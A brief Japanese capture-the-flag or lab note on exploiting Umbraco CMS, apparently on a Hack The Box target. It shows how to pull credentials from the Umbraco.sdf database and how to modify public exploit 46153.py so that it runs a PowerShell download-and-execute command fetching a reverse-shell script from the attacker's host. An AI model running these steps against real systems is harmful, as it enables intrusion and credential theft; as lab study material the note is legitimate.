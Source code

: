 # umbracoCMS

[toc]

### URL

http://10.129.190.136/umbraco

### バージョン情報

```
Web.config
```

一番上の階層にあることが多い

<img src="img/umbracoCMS/image-20230503085346232.png" alt="image-20230503085346232" style="zoom:50%;" />

### 認証情報

```bash
/App_Data/Umbraco.sdf
Strings Umbraco.sdf | head
```

![image-20230503085558384](img/umbracoCMS/image-20230503085558384.png)

### 脆弱性情報

```
searchsploit umbraco
```

![image-20230503085707018](img/umbracoCMS/image-20230503085707018.png)

### 46153.py

* `calc.exe`→`cmd.exe`に変更
* `strings cmd =""`に`/c powershell -c iex(New-object Net.Webclient).Downloadstring('http://10.10.14.75/Invoke-PowerShellTcp.ps1')`を追加する
* 事前に`/c ping 10.10.14.75`を設定して`tcpdump -i tun0 icmp`でテストする

![image-20230503085803456](img/umbracoCMS/image-20230503085803456.png)

テスト

![image-20230503090032970](img/umbracoCMS/image-20230503090032970.png)

